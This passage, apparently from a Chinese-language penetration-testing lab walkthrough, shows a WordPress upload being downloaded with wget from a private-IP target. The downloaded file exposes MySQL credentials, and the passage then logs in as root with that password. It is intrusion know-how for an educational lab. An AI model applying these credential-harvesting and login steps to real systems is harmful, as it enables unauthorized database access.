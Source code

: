 ```bash
wget https://192.168.179.149:12380/blogblog/wp-content/uploads/1140321183.jpeg --no-check-certificate
cat 1140321183.jpeg
```

[![](assets/1699929525-81b59ba9d2cb4e3f9eb0659cb5d4f7fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140117-e5146afa-8120-1.png)

里面包含 mysql 用户名与密码等重要信息

### mysql 登录

使用用户名 root 和密码 plbkac 进行数据库登录

```bash
mysql -h 192.168.179.149 -uroot -pplbkac
```

查看数据库和相关表：
